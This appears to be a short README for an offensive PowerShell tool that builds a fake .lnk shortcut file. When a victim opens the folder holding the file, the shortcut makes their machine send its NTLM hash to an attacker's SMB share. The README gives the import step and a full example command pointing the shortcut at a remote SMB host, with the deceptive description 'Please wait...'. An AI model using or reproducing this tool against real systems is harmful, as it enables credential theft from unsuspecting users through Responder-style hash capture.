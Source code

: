 ## About
The script creates a fake `.lnk` file that will leak the NTLM hash once the directory is opened (Responder-like attacks)

## Syntax
1) Import the script

`. .\leak.ps1`

2) Create a `.lnk` file

`Create-SMBHashLeakLnk -LnkFilePath ".\grab.lnk"  -SmbSharePath "\\192.168.254.43\share\hunt.exe"  -Description "Please wait..."`
